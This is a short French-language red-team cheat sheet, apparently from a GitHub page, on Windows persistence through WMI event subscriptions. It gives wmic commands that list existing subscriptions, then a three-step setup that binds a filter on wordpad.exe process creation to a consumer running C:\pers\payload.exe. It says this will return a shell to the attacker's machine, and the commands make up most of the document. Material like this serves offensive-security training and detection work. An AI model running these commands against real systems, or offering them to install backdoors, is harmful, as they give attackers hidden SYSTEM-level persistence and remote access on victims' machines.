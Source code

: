 # WMI Eventing

WMI (Windows Management Instrumentation) s'executer par defaut an tant que `SYSTEM`

Querying:

```sh
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter GET /format:list

wmic /NAMESPACE:"\\root\subscription" PATH __EventConsumer GET /format:list

wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding GET /format:list
```

Setup:

```sh
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="INFilter", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="Select * From __InstanceCreationEvent Within 15 Where (TargetInstance Isa 'Win32_Process' And TargetInstance.Name = 'wordpad.exe')"
```

```sh
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="INConsumer", WorkingDirectory="C:\pers", CommandLineTemplate="C:\pers\payload.exe"
```

```sh
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"INFilter\"", Consumer="CommandLineEventConsumer.Name=\"INConsumer\""
```

Maintenant losrque le fichier `wordpad.exe` sera ouvert nous reverons un shell sur notre machine attaquante
